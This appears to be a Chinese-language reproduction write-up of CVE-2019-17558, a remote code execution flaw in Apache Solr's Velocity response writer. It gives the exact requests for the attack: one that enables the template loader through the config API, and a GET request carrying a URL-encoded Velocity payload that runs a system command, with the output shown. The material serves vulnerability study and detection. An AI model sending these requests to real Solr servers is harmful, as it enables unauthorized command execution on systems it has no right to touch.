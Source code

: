 # CVE-2019-17558

## 概述 

Apache Solr 是一个开源的搜索服务器。

在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

攻击者通过未授权访问solr服务器，发送特定的数据包开启params.resource.loader.enabled，然后get访问接口导致服务器命令执行。


## 复现

查看 all cores:

http://ip:8983/solr/admin/cores?indexInfo=false&wt=json

	{
	  "responseHeader":{
	    "status":0,
	    "QTime":0},
	  "initFailures":{},
	  "status":{
	    "demo":{
	      "name":"demo",
	      "instanceDir":"/var/solr/data/demo",
	      "dataDir":"/var/solr/data/demo/data/",
	      "config":"solrconfig.xml",
	      "schema":"managed-schema",
	      "startTime":"2020-11-02T08:54:31.126Z",
	      "uptime":46243}}}

默认情况下params.resource.loader.enabled配置未打开，无法使用自定义模板。

通过如下请求开启params.resource.loader.enabled，其中API路径包含刚才获取的core名称：

	POST /solr/demo/config HTTP/1.1
	Host: solr:8983
	Content-Type: application/json
	Content-Length: 259
	
	{
	  "update-queryresponsewriter": {
	    "startup": "lazy",
	    "name": "velocity",
	    "class": "solr.VelocityResponseWriter",
	    "template.base.dir": "",
	    "solr.resource.loader.enabled": "true",
	    "params.resource.loader.enabled": "true"
	  }
	}

执行命令主要在后面的get请求：

	http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end

response：

	HTTP/1.1 200 OK
	Content-Type: text/html;charset=utf-8
	Content-Length: 56
	
	     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)

入侵指标以后面的get请求为准。